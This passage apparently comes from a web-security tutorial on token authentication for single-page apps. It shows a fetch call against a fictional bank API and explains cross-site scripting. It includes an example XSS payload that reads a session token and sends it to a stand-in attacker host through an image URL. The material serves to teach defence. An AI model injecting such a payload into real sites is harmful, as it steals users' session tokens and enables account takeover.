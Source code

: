 Most of the time, APIs require that this token is sent as a custom `Authorization` header for each call. So the call to `GET /accounts` usually looks like:

```js
/**
 * @return {Promise}
 */
function getAccounts() {
    return fetch('https://api.bobank.com/accounts', {
        headers: {
            'Authorization': 'Token ' + window.sessionStorage.getItem('token'),
            'Content-Type': 'application/json; charset=utf-8',
            'Accept': 'application/json',
        }
    }).then(function(response) {
        return response.json();
    })
}
```

One thing to note is that this `Authorization` header must be added to the list of authorized headers in the `Access-Control-Allow-Headers` CORS header, by the API server. So API responses should look like the following:

```
HTTP/1.1 200 OK
Content-Type:application/json; charset=utf-8
Access-Control-Allow-Headers: Content-Type,Authorization
Access-Control-Allow-Methods: GET,POST,PUT
Access-Control-Allow-Origin: https://www.bobank.com
[
  { id: 456346436, ... }
]
```

This approach works for the `GET /accounts`, and all subsequent calls to the API. But it has one major drawback: it is vulnerable to an XSS attack.

## Cross-Site Scripting (XSS)

Every script running on the same domain as the single page application has access to the session storage. Every script, and this includes possible malicious script inserted by an attacker. For instance, an attacker could enter the following value in a comment form:

```js
<script>
var token = window.sessionStorage.getItem('token');
var img=document.createElement("img");
img.setAttribute('src', 'http://my.malicious.website/?stolenToken=' + token);
document.body.appendChild(img);
</script>
```

If the application script outputs this value to HTML directly, the attacker will gather all the customer tokens. This is called a [Cross-Site Scripting](https://www.owasp.org/index.php/Cross-site_Scripting_(XSS)) attack, or XSS.
